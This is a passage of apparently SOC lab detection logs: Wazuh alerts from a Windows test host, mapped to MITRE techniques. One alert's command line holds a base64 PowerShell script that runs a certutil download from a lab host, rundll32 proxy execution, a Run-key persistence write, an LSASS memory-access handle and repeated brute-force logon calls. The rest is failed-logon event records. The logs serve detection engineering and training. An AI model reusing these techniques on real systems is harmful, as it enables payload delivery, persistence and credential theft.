AHYAYQBwAGkAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQAsACAAQwBoAGEAcgBTAGUAdAAgAD0AIABDAGgAYQByAFMAZQB0AC4AVQBuAGkAYwBvAGQAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABMAG8AZwBvAG4AVQBzAGUAcgAoAHMAdAByAGkAbgBnACAAbABwAHMAegBVAHMAZQByAG4AYQBtAGUALAAgAHMAdAByAGkAbgBnACAAbABwAHMAegBEAG8AbQBhAGkAbgAsACAAcwB0AHIAaQBuAGcAIABsAHAAcwB6AFAAYQBzAHMAdwBvAHIAZAAsAAoAIAAgACAAIAAgACAAIAAgAGkAbgB0ACAAZAB3AEwAbwBnAG8AbgBUAHkAcABlACwAIABpAG4AdAAgAGQAdwBMAG8AZwBvAG4AUAByAG8AdgBpAGQAZQByACwAIABvAHUAdAAgAEkAbgB0AFAAdAByACAAcABoAFQAbwBrAGUAbgApADsACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIALAAgAFMAZQB0AEwAYQBzAHQARQByAHIAbwByACAAPQAgAHQAcgB1AGUAKQBdAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgASQBuAHQAUAB0AHIAIABoAE8AYgBqAGUAYwB0ACkAOwAKAH0ACgAiAEAACgBBAGQAZAAtAFQAeQBwAGUAIAAtAFQAeQBwAGUARABlAGYAaQBuAGkAdABpAG8AbgAgACQAbABvAGcAbwBuAEMAbwBkAGUACgBmAG8AcgAgACgAJABpACAAPQAgADEAOwAgACQAaQAgAC0AbABlACAANgA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJAB0AG8AawAgAD0AIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8ACgAgACAAIAAgAFsAQQBkAHYAYQBwAGkAVABlAHMAdABdADoAOgBMAG8AZwBvAG4AVQBzAGUAcgAoACIAcwBvAGMAIgAsACAAIgBXAGkAbgAxADAAIgAsACAAIgBXAHIAbwBuAGcAUABhAHMAcwAxADIAMwAhACIALAAgADMALAAgADAALAAgAFsAcgBlAGYAXQAkAHQAbwBrACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADMACgAkAHQAbwBrAEcAbwBvAGQAIAA9ACAAWwBJAG4AdABQAHQAcgBdADoAOgBaAGUAcgBvAAoAJABvAGsAIAA9ACAAWwBBAGQAdgBhAHAAaQBUAGUAcwB0AF0AOgA6AEwAbwBnAG8AbgBVAHMAZQByACgAIgBzAG8AYwAiACwAIAAiAFcAaQBuADEAMAAiACwAIAAiAFMAbwBjAEwAYQBiACEAMgAwADIANgAiACwAIAAzACwAIAAwACwAIABbAHIAZQBmAF0AJAB0AG8AawBHAG8AbwBkACkACgBXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACIATABvAGcAbwBuAFUAcwBlAHIAIABzAHUAYwBjAGUAcwBzAD0AJABvAGsAIgAKAGkAZgAgACgAJAB0AG8AawBHAG8AbwBkACAALQBuAGUAIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8AKQAgAHsAIABbAEEAZAB2AGEAcABpAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJAB0AG8AawBHAG8AbwBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAA==\r\nParentUser: WIN10\\soc\""
      },
      "eventdata": {
        "utcTime": "2026-10-19 18:43:30.061",
        "processGuid": "{659b395a-64d2-6ad6-5a04-000000000300}",
        "processId": "1920",
        "image": "C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe",
        "fileVersion": "10.0.26100.1 (WinBuild.160101.0800)",
        "description": "Windows PowerShell",
        "product": "Microsoft\u00ae Windows\u00ae Operating System",
        "company": "Microsoft Corporation",
        "originalFileName": "PowerShell.EXE",
        "commandLine": "\\\"C:\\\\WINDOWS\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\\" -NoProfile -enc dwBoAG8AYQBtAGkA",
        "currentDirectory": "C:\\\\Users\\\\soc\\\\",
        "user": "WIN10\\\\soc",
        "logonGuid": "{659b395a-64cf-6ad6-935b-e60000000000}",
        "logonId": "0xe65b93",
        "terminalSessionId": "0",
        "integrityLevel": "High",
        "hashes": "MD5=909A2EEC5534F01DFF87B7D47E57BFF7,SHA256=D3B4B97C2BF97D70E5655FF4C4CA1D8CEF9DED51685CFD764247CFDA98EE68DF,IMPHASH=AFACF6DC9041114B198160AAB4D0AE77",
        "parentProcessGuid": "{659b395a-64d0-6ad6-5904-000000000300}",
        "parentProcessId": "2604",
        "parentImage": "C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe",
        "parentCommandLine": "powershell  -NoProfile -EncodedCommand CgBOAGUAdwAtAEkAdABlAG0AIAAtAEkAdABlAG0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAALQBQAGEAdABoACAAQwA6AFwAVABlAG0AcAAgAC0ARgBvAHIAYwBlACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIwAgADEALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANQA6ACAAUABvAHcAZQByAFMAaABlAGwAbAAgAGUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkAAoAJABwADEAIAA9ACAAIgBwAG8AdwBlAHIAIgAgACsAIAAiAHMAaABlAGwAbAAuAGUAeABlACIACgAkAGEAMQAgAD0AIAAiAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtACIAIAArACAAIgBlAG4AYwAgAGQAdwBCAG8AQQBHADgAQQBZAFEAQgB0AEEARwBrAEEAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAxACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAxACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAyAC4AIABSAHUAbABlACAAMQAwADAAMAAxADMAOgAgAGMAZQByAHQAdQB0AGkAbAAgAGQAbwB3AG4AbABvAGEAZAAKACQAcAAyACAAPQAgACIAYwBlAHIAdAAiACAAKwAgACIAdQB0AGkAbAAuAGUAeABlACIACgAkAGEAMgAgAD0AIAAiAC0AIgAgACsAIAAiAHUAcgBsAGMAYQBjAGgAZQAgAC0AZgAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvACAAQwA6AFwAVABlAG0AcAAHAC4AdAB4AHQAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAyACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAyACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAzAC4AIABSAHUAbABlACAAMQAwADAAMgAwADUAOgAgAHIAdQBuAGQAbABsADMAMgAgAHAAcgBvAHgAeQAgAGUAeABlAGMAdQB0AGkAbwBuAAoAJABwADMAIAA9ACAAIgByAHUAbgAiACAAKwAgACIAZABsAGwAMwAyAC4AZQB4AGUAIgAKACQAYQAzACAAPQAgACIAdQByAGwALgBkAGwAbAAsAEYAaQBsAGUAIgAgACsAIAAiAFAAcgBvAHQAbwBjAG8AbABIAGEAbgBkAGwAZQByACAAYwBhAGwAYwAuAGUAeABlACIACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAkAHAAMwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAkAGEAMwAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADEACgAKACMAIAA0AC4AIABSAHUAbABlACAAMQAwADAAMgAwADYAOgAgAFIAZQBnAGkAcwB0AHIAeQAgAFIAdQBuACAAawBlAHkAIABwAGUAcgBzAGkAcwB0AGUAbgBjAGUACgByAGUAZwAuAGUAeABlACAAYQBkAGQAIAAiAEgASwBDAFUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABSAHUAbgAiACAALwB2ACAAVAAgAC8AZAAgACIAYwBhAGwAYwAuAGUAeABlACIAIAAvAGYACgBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAFMAZQBjAG8AbgBkAHMAIAAxAAoAcgBlAGcALgBlAHgAZQAgAGQAZQBsAGUAdABlACAAIgBIAEsAQwBVAFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUgB1AG4AIgAgAC8AdgAgAFQAIAAvAGYACgAKACMAIAA1AC4AIABSAHUAbABlACAAMQAwADAAMgAwADEAOgAgAEwAUwBBAFMAUwAgAG0AZQBtAG8AcgB5ACAAYQBjAGMAZQBzAHMAIAAoADAAeAAxADAAMQAwACAAUABSAE8AQwBFAFMAUwBfAFYATQBfAFIARQBBAEQAIAB8ACAAUABSAE8AQwBFAFMAUwBfAFEAVQBFAFIAWQBfAEwASQBNAEkAVABFAEQAXwBJAE4ARgBPAFIATQBBAFQASQBPAE4AKQAKACQAYwBvAGQAZQAgAD0AIABAACIACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwAKAHAAdQBiAGwAaQBjACAAYwBsAGEAcwBzACAATABzAGEAcwBzAFQAZQBzAHQAIAB7AAoAIAAgACAAIABbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACwAIABTAGUAdABMAGEAcwB0AEUAcgByAG8AcgAgAD0AIAB0AHIAdQBlACkAXQAKACAAIAAgACAAcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABPAHAAZQBuAFAAcgBvAGMAZQBzAHMAKAB1AGkAbgB0ACAAZAB3AEQAZQBzAGkAcgBlAGQAQQBjAGMAZQBzAHMALAAgAGIAbwBvAGwAIABiAEkAbgBoAGUAcgBpAHQASABhAG4AZABsAGUALAAgAGkAbgB0ACAAZAB3AFAAcgBvAGMAZQBzAHMASQBkACkAOwAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABDAGwAbwBzAGUASABhAG4AZABsAGUAKABJAG4AdABQAHQAcgAgAGgATwBiAGoAZQBjAHQAKQA7AAoAfQAKACIAQAAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABjAG8AZABlAAoAJABsAHMAYQBzAHMAUABpAGQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIABsAHMAYQBzAHMAKQAuAEkAZAAKACQAaAAgAD0AIABbAEwAcwBhAHMAcwBUAGUAcwB0AF0AOgA6AE8AcABlAG4AUAByAG8AYwBlAHMAcwAoADAAeAAxADAAMQAwACwAIAAkAGYAYQBsAHMAZQAsACAAJABsAHMAYQBzAHMAUABpAGQAKQAKAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAIgBPAHAAZQBuAGUAZAAgAGwAcwBhAHMAcwAgAFAASQBEACAAJABsAHMAYQBzAHMAUABpAGQAIABoAGEAbgBkAGwAZQA9ACQAaAAiAAoAaQBmACAAKAAkAGgAIAAtAG4AZQAgAFsASQBuAHQAUAB0AHIAXQA6ADoAWgBlAHIAbwApACAAewAgAFsATABzAGEAcwBzAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJABoACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAAoAIwAgADYALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANwAgACsAIAAxADAAMAAyADAAMAA6ACAANQAgAGYAYQBpAGwAZQBkACAAbABvAGcAbwBuAHMAIAAoADQANgAyADUAKQAgAGYAbwBsAGwAbwB3AGUAZAAgAGIAeQAgADEAIABzAHUAYwBjAGUAcwBzAGYAdQBsACAAbABvAGcAbwBuACAAKAA0ADYAMgA0ACkAIABmAG8AcgAgAHUAcwBlAHIAIAAnAHMAbwBjACcACgAkAGwAbwBnAG8AbgBDAG8AZABlACAAPQAgAEAAIgAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtADsACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABBAGQAdgBhAHAAaQBUAGUAcwB0ACAAewAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAYQBkAHYAYQBwAGkAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQAsACAAQwBoAGEAcgBTAGUAdAAgAD0AIABDAGgAYQByAFMAZQB0AC4AVQBuAGkAYwBvAGQAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABMAG8AZwBvAG4AVQBzAGUAcgAoAHMAdAByAGkAbgBnACAAbABwAHMAegBVAHMAZQByAG4AYQBtAGUALAAgAHMAdAByAGkAbgBnACAAbABwAHMAegBEAG8AbQBhAGkAbgAsACAAcwB0AHIAaQBuAGcAIABsAHAAcwB6AFAAYQBzAHMAdwBvAHIAZAAsAAoAIAAgACAAIAAgACAAIAAgAGkAbgB0ACAAZAB3AEwAbwBnAG8AbgBUAHkAcABlACwAIABpAG4AdAAgAGQAdwBMAG8AZwBvAG4AUAByAG8AdgBpAGQAZQByACwAIABvAHUAdAAgAEkAbgB0AFAAdAByACAAcABoAFQAbwBrAGUAbgApADsACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIALAAgAFMAZQB0AEwAYQBzAHQARQByAHIAbwByACAAPQAgAHQAcgB1AGUAKQBdAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgASQBuAHQAUAB0AHIAIABoAE8AYgBqAGUAYwB0ACkAOwAKAH0ACgAiAEAACgBBAGQAZAAtAFQAeQBwAGUAIAAtAFQAeQBwAGUARABlAGYAaQBuAGkAdABpAG8AbgAgACQAbABvAGcAbwBuAEMAbwBkAGUACgBmAG8AcgAgACgAJABpACAAPQAgADEAOwAgACQAaQAgAC0AbABlACAANgA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJAB0AG8AawAgAD0AIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8ACgAgACAAIAAgAFsAQQBkAHYAYQBwAGkAVABlAHMAdABdADoAOgBMAG8AZwBvAG4AVQBzAGUAcgAoACIAcwBvAGMAIgAsACAAIgBXAGkAbgAxADAAIgAsACAAIgBXAHIAbwBuAGcAUABhAHMAcwAxADIAMwAhACIALAAgADMALAAgADAALAAgAFsAcgBlAGYAXQAkAHQAbwBrACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADMACgAkAHQAbwBrAEcAbwBvAGQAIAA9ACAAWwBJAG4AdABQAHQAcgBdADoAOgBaAGUAcgBvAAoAJABvAGsAIAA9ACAAWwBBAGQAdgBhAHAAaQBUAGUAcwB0AF0AOgA6AEwAbwBnAG8AbgBVAHMAZQByACgAIgBzAG8AYwAiACwAIAAiAFcAaQBuADEAMAAiACwAIAAiAFMAbwBjAEwAYQBiACEAMgAwADIANgAiACwAIAAzACwAIAAwACwAIABbAHIAZQBmAF0AJAB0AG8AawBHAG8AbwBkACkACgBXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACIATABvAGcAbwBuAFUAcwBlAHIAIABzAHUAYwBjAGUAcwBzAD0AJABvAGsAIgAKAGkAZgAgACgAJAB0AG8AawBHAG8AbwBkACAALQBuAGUAIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8AKQAgAHsAIABbAEEAZAB2AGEAcABpAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJAB0AG8AawBHAG8AbwBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAA==",
        "parentUser": "WIN10\\\\soc"
      }
    }
  },
  "location": "EventChannel"
}
```

---

### Rule `100007` — SOC-100007 [T1110]: Brute force detected - 5 failed logons (Event 4625) for user soc within 2 minutes

```json
{
  "timestamp": "2026-10-19T18:43:36.474+0000",
  "rule": {
    "level": 10,
    "description": "SOC-100007 [T1110]: Brute force detected - 5 failed logons (Event 4625) for user soc within 2 minutes",
    "id": "100007",
    "mitre": {
      "id": [
        "T1110"
      ],
      "tactic": [
        "Credential Access"
      ],
      "technique": [
        "Brute Force"
      ]
    },
    "frequency": 5,
    "firedtimes": 1,
    "mail": false,
    "groups": [
      "local",
      "soc_capstone",
      "authentication_failures",
      "credential_access"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435416.10498691",
  "previous_output": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Security-Auditing\",\"providerGuid\":\"{54849625-5478-4994-a5ba-3e3b0328c30d}\",\"eventID\":\"4625\",\"version\":\"0\",\"level\":\"0\",\"task\":\"12544\",\"opcode\":\"0\",\"keywords\":\"0x8010000000000000\",\"systemTime\":\"2026-10-19T18:43:36.4796717Z\",\"eventRecordID\":\"2632\",\"processID\":\"872\",\"threadID\":\"2664\",\"channel\":\"Security\",\"computer\":\"Win10\",\"severityValue\":\"AUDIT_FAILURE\",\"message\":\"\\\"An account failed to log on.\\r\\n\\r\\nSubject:\\r\\n\\tSecurity ID:\\t\\tS-1-5-21-2093812193-1135278953-2291312261-1000\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWIN10\\r\\n\\tLogon ID:\\t\\t0xE65B93\\r\\n\\r\\nLogon Type:\\t\\t\\t3\\r\\n\\r\\nAccount For Which Logon Failed:\\r\\n\\tSecurity ID:\\t\\tS-1-0-0\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWin10\\r\\n\\r\\nFailure Information:\\r\\n\\tFailure Reason:\\t\\tUnknown user name or bad password.\\r\\n\\tStatus:\\t\\t\\t0xC000006D\\r\\n\\tSub Status:\\t\\t0xC000006A\\r\\n\\r\\nProcess Information:\\r\\n\\tCaller Process ID:\\t0xa2c\\r\\n\\tCaller Process Name:\\tC:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\n\\r\\nNetwork Information:\\r\\n\\tWorkstation Name:\\tWIN10\\r\\n\\tSource Network Address:\\t-\\r\\n\\tSource Port:\\t\\t-\\r\\n\\r\\nDetailed Authentication Information:\\r\\n\\tLogon Process:\\t\\tAdvapi  \\r\\n\\tAuthentication Package:\\tNegotiate\\r\\n\\tTransited Services:\\t-\\r\\n\\tPackage Name (NTLM only):\\t-\\r\\n\\tKey Length:\\t\\t0\\r\\n\\r\\nThis event is generated when a logon request fails. It is generated on the computer where access was attempted.\\r\\n\\r\\nThe Subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\\r\\n\\r\\nThe Logon Type field indicates the kind of logon that was requested. The most common types are 2 (interactive) and 3 (network).\\r\\n\\r\\nThe Process Information fields indicate which account and process on the system requested the logon.\\r\\n\\r\\nThe Network Information fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\\r\\n\\r\\nThe authentication information fields provide detailed information about this specific logon request.\\r\\n\\t- Transited services indicate which intermediate services have participated in this logon request.\\r\\n\\t- Package name indicates which sub-protocol was used among the NTLM protocols.\\r\\n\\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\\\"\"},\"eventdata\":{\"subjectUserSid\":\"S-1-5-21-2093812193-1135278953-2291312261-1000\",\"subjectUserName\":\"soc\",\"subjectDomainName\":\"WIN10\",\"subjectLogonId\":\"0xe65b93\",\"targetUserSid\":\"S-1-0-0\",\"targetUserName\":\"soc\",\"targetDomainName\":\"Win10\",\"status\":\"0xc000006d\",\"failureReason\":\"%%2313\",\"subStatus\":\"0xc000006a\",\"logonType\":\"3\",\"logonProcessName\":\"Advapi\",\"authenticationPackageName\":\"Negotiate\",\"workstationName\":\"WIN10\",\"keyLength\":\"0\",\"processId\":\"0xa2c\",\"processName\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\"}}}\n{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Security-Auditing\",\"providerGuid\":\"{54849625-5478-4994-a5ba-3e3b0328c30d}\",\"eventID\":\"4625\",\"version\":\"0\",\"level\":\"0\",\"task\":\"12544\",\"opcode\":\"0\",\"keywords\":\"0x8010000000000000\",\"systemTime\":\"2026-10-19T18:43:36.4786616Z\",\"eventRecordID\":\"2631\",\"processID\":\"872\",\"threadID\":\"6684\",\"channel\":\"Security\",\"computer\":\"Win10\",\"severityValue\":\"AUDIT_FAILURE\",\"message\":\"\\\"An account failed to log on.\\r\\n\\r\\nSubject:\\r\\n\\tSecurity ID:\\t\\tS-1-5-21-2093812193-1135278953-2291312261-1000\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWIN10\\r\\n\\tLogon ID:\\t\\t0xE65B93\\r\\n\\r\\nLogon Type:\\t\\t\\t3\\r\\n\\r\\nAccount For Which Logon Failed:\\r\\n\\tSecurity ID:\\t\\tS-1-0-0\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWin10\\r\\n\\r\\nFailure Information:\\r\\n\\tFailure Reason:\\t\\tUnknown user name or bad password.\\r\\n\\tStatus:\\t\\t\\t0xC000006D\\r\\n\\tSub Status:\\t\\t0xC000006A\\r\\n\\r\\nProcess Information:\\r\\n\\tCaller Process ID:\\t0xa2c\\r\\n\\tCaller Process Name:\\tC:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\n\\r\\nNetwork Information:\\r\\n\\tWorkstation Name:\\tWIN10\\r\\n\\tSource Network Address:\\t-\\r\\n\\tSource Port:\\t\\t-\\r\\n\\r\\nDetailed Authentication Information:\\r\\n\\tLogon Process:\\t\\tAdvapi  \\r\\n\\tAuthentication Package:\\tNegotiate\\r\\n\\tTransited Services:\\t-\\r\\n\\tPackage Name (NTLM only):\\t-\\r\\n\\tKey Length:\\t\\t0\\r\\n\\r\\nThis event is generated when a logon request fails. It is generated on the computer where access was attempted.\\r\\n\\r\\nThe Subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\\r\\n\\r\\nThe Logon Type field indicates the kind of logon that was requested. The most common types are 2 (interactive) and 3 (network).\\r\\n\\r\\nThe Process Information fields indicate which account and process on the system requested the logon.\\r\\n\\r\\nThe Network Information fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\\r\\n\\r\\nThe authentication information fields provide detailed information about this specific logon request.\\r\\n\\t- Transited services indicate which intermediate services have participated in this logon request.\\r\\n\\t- Package name indicates which sub-protocol was used among the NTLM protocols.\\r\\n\\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\\\"\"},\"eventdata\":{\"subjectUserSid\":\"S-1-5-21-2093812193-1135278953-2291312261-1000\",\"subjectUserName\":\"soc\",\"subjectDomainName\":\"WIN10\",\"subjectLogonId\":\"0xe65b93\",\"targetUserSid\":\"S-1-0-0\",\"targetUserName\":\"soc\",\"targetDomainName\":\"Win10\",\"status\":\"0xc000006d\",\"failureReason\":\"%%2313\",\"subStatus\":\"0xc000006a\",\"logonType\":\"3\",\"logonProcessName\":\"Advapi\",\"authenticationPackageName\":\"Negotiate\",\"workstationName\":\"WIN10\",\"keyLength\":\"0\",\"processId\":\"0xa2c\",\"processName\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\"}}}\n{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Security-Auditing\",\"providerGuid\":\"{54849625-5478-4994-a5ba-3e3b0328c30d}\",\"eventID\":\"4625\",\"version\":\"0\",\"level\":\"0\",\"task\":\"12544\",\"opcode\":\"0\",\"keywords\":\"0x8010000000000000\",\"systemTime\":\"2026-10-19T18:43:36.4775428Z\",\"eventRecordID\":\"2630\",\"processID\":\"872\",\"threadID\":\"6684\",\"channel\":\"Security\",\"computer\":\"Win10\",\"severityValue\":\"AUDIT_FAILURE\",\"message\":\"\\\"An account failed to log on.\\r\\n\\r\\nSubject:\\r\\n\\tSecurity ID:\\t\\tS-1-5-21-2093812193-1135278953-2291312261-1000\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWIN10\\r\\n\\tLogon ID:\\t\\t0xE65B93\\r\\n\\r\\nLogon Type:\\t\\t\\t3\\r\\n\\r\\nAccount For Which Logon Failed:\\r\\n\\tSecurity ID:\\t\\tS-1-0-0\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWin10\\r\\n\\r\\nFailure Information:\\r\\n\\tFailure Reason:\\t\\tUnknown user name or bad password.\\r\\n\\tStatus:\\t\\t\\t0xC000006D\\r\\n\\tSub Status:\\t\\t0xC000006A\\r\\n\\r\\nProcess Information:\\r\\n\\tCaller Process ID:\\t0xa2c\\r\\n\\tCaller Process Name:\\tC:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\n\\r\\nNetwork Information:\\r\\n\\tWorkstation Name:\\tWIN10\\r\\n\\tSource Network Address:\\t-\\r\\n\\tSource Port:\\t\\t-\\r\\n\\r\\nDetailed Authentication Information:\\r\\n\\tLogon Process:\\t\\tAdvapi  \\r\\n\\tAuthentication Package:\\tNegotiate\\r\\n\\tTransited Services:\\t-\\r\\n\\tPackage Name (NTLM only):\\t-\\r\\n\\tKey Length:\\t\\t0\\r\\n\\r\\nThis event is generated when a logon request fails. It is generated on the computer where access was attempted.\\r\\n\\r\\nThe Subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\\r\\n\\r\\nThe Logon Type field indicates the kind of logon that was requested. The most common types are 2 (interactive) and 3 (network).\\r\\n\\r\\nThe Process Information fields indicate which account and process on the system requested the logon.\\r\\n\\r\\nThe Network Information fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\\r\\n\\r\\nThe authentication information fields provide detailed information about this specific logon request.\\r\\n\\t- Transited services indicate which intermediate services have participated in this logon request.\\r\\n\\t- Package name indicates which sub-protocol was used among the NTLM protocols.\\r\\n\\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\\\"\"},\"eventdata\":{\"subjectUserSid\":\"S-1-5-21-2093812193-1135278953-2291312261-1000\",\"subjectUserName\":\"soc\",\"subjectDomainName\":\"WIN10\",\"subjectLogonId\":\"0xe65b93\",\"targetUserSid\":\"S-1-0-0\",\"targetUserName\":\"soc\",\"targetDomainName\":\"Win10\",\"status\":\"0xc000006d\",\"failureReason\":\"%%2313\",\"subStatus\":\"0xc000006a\",\"logonType\":\"3\",\"logonProcessName\":\"Advapi\",\"authenticationPackageName\":\"Negotiate\",\"workstationName\":\"WIN10\",\"keyLength\":\"0\",\"processId\":\"0xa2c\",\"processName\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\"}}}\n{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Security-Auditing\",\"providerGuid\":\"{54849625-5478-4994-a5ba-3e3b0328c30d}\",\"eventID\":\"4625\",\"version\":\"0\",\"level\":\"0\",\"task\":\"12544\",\"opcode\":\"0\",\"keywords\":\"0x80